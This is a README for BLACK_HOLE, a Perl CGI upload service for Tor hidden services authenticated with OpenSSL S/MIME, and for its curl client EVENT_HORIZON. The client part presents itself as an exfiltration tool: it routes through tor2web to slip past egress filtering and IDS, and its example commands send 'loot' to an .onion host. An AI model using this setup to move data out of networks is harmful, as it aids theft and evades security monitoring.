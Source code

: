# BLACK_HOLE

Is a perl cgi file upload web app that is built to function easily with 
curl and the use of html forms is not required or needed. It is made 
to be used as a TOR hidden service.

Due to this the difference of this cgi upload app from others is that 
it uses OpenSSL public key encryption for authentication. The 
purchase of a cert from a CA is not needed or recommened as those 
orginizations personal regard for you is dubious.

Since these certs are not used for establishing SSL sessions only for
file encryption. It is best in my opinion to create the keypair you need 
and only give out copies of the public key to the indivduals you 
personaly trust.


## Installing
The install process will get lighttpd through apt and configure it then 
place the cgi in the correct location.

You will also be prompted to input the authentication passphrase.

Run as root

```
root@null:~/black-hole# ./install-bh.sh
```
The private key is required to be in the directory /var/cp-data/auth/
for this cgi to function.


### Explanation

A breakdown of the cgi will follow but it still does not beat reading
the Perl cgi itself. Plus eventhough it's Perl I avoided using obscure 
code and kept it simple so that a sysadmin that doesn't program should 
be able to break it down after some reading.

To understand how the authentication is performed, I first have to point
out the folders in use by this cgi.

NOTE: These will be generated by the installer, you will be 
prompted for the passphrase.

The required folders are placed in /var/. 

```
         /var/cp-data/
                 └── auth/
                       ├── pphrase
                       └── private.pem
```

The owner for cp-data/ and it's subdirectories is "www-data".

cp-data/ is the main folder which will contain the uploaded data. The 
sub folder auth/ MUST contain the private key along with a passphrase
or a hash of a passphrase which is interpreted by the cgi as a string
to see if it matches with an authentication parameter posted to it.

keep this in mind.

The cgi has three parameters that need to be filled and each need to be 
processed successfully otherwise the cgi will exit. They are proccesed 
in a sequential manner.

NOTE: for those that do not wish to craft your own url requestes 
and wish to use a more automated method, see EVENT_HORIZON below.


## FIRST parameter
The first parameter is the plain-text or hashed passphrase that is 
encrypted by the corrisponding OpenSSL public key as any SMIME type with
public key encryption.

### OpenSSL smime data, example:

```
MIME-Version: 1.0
Content-Disposition: attachment; filename="smime.p7m"
Content-Type: application/x-pkcs7-mime; smime-type=enveloped-data; name="smime.p7m"
Content-Transfer-Encoding: base64

MIIBxgYJKoZIhvcNAQcDoIIBtzCCAbMCAQAxggFuMIIBagIBADBSMEUxCzAJBgNV
BAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEwHwYDVQQKDBhJbnRlcm5ldCBX
aWRnaXRzIFB0eSBMdGQCCQDtan1KLnkXHjANBgkqhkiG9w0BAQEFAASCAQAH6f3L
VkTcrGI+oEwIm17wVW1XQTyjd4kxnFTGbc29dPsnW+bymAkzc0Xq9y2hv/+Mdd/i
QHW8m9Sry9jYXLO5mKp2LAEy4q3x6hM5XomV8elgm7ZNriVdWAYztVQ01I+3RnOo
5vqSy3iCfJ4/ecs5/RyE+JLG7269389NTMDigQOY/XqtFOB8dbeQolTanJev6Nxt
cvwapfxFGIs85QIFlQp9c2VP6KCFMk7h4Hyv03pJgWSR2hg7CDjzOfdMsi1WQ92P
TEYIi9n26XXiCUTMLCY8RqJsWlFvhyhW8PXXQy2kC7fn/I+ukcf+qtieEzGVCIOS
gWHEt5k6uWpt43pNMDwGCSqGSIb3DQEHATAdBglghkgBZQMEASoEEPxDoqLGhINJ
ZhF1cyVM0XyAEBLJ3nT17dVtx/E+k3lEw/8=
```

For this parameter to be completed successfully the cgi would have to 
decrypt the SMIME data with the private key and extract the 
passphrase/hash and match this to the passphrase/hash in the 
cp-data/auth/ folder. 


## SECOND parameter
The second parameter contains a one time use random key that is 
encrypted in the same manner as the first parameter(SMIME/AES). This 
one time use passphrase will be used to encrypt/decrypt symmenticly 
the data that is to be uploaded.

For this parameter to be completed successfully the cgi would have to
be able to decrypt this SMIME data with the privated key. The decrypted
passphrase is stored in the same directory as the data that is uploaded,
both share the same time stamp.


## THIRD parameter 
The third parameter will contain the encryped data to be uploaded.

This cgi was made to function in a environment without SSL/TLS session
encryption.



# EVENT_HORIZON

A client for one that wishes to upload to BLACK_HOLE. It performs 
the neccesary encryption on the files to be uploaded, then uses curl along 
with OpenSSL and the public key to generate a url post request that 
contains the three required parameters.

The trick is that on top of directly uploading to the cgi over the normal 
Internet. It also has the option to use proxies that serve as hidden service 
gateways such as tor2web. The idea behind it is that the LAN this client may 
be connecting from may have egress filtering rules (IDS/IDPS) that may interfere 
with tor traffic. So this manages to still use tor by first connecting to one 
of these proxies using regular HTTPS that then forward it to your hidden service 
over tor. 

The temporary password for symmetric encryption is generated with 
/dev/urandom and piped into a variable.

```
 TPASS=$(< /dev/urandom tr -dc _A-Z-a-z-0-9 | head -c 30 | base64)
```

Options avaliable by event-horizon client.
```

options:
   -k   location of the public key in pem format for use in encryption
   -t   use tor2web to use exfil hosted on hidden service (yes/no)
   -a   trusted passphrase on the server hosting the cgi perl file
   -d   location of the data file you wish to upload
   -u   full url to the perl cgi upload app, if hidden service place .onion url

usage examples:

without tor:
./event-horizon.sh -k public.pem -a pphrase -t no -d loot -u some_domain.com

using tor tor2web proxies:
./event-horizon.sh -k public.pem -a pphrase -t yes -d loot -u hakzortrolz.onion

```


xor-function @
nightowlconsulting.com
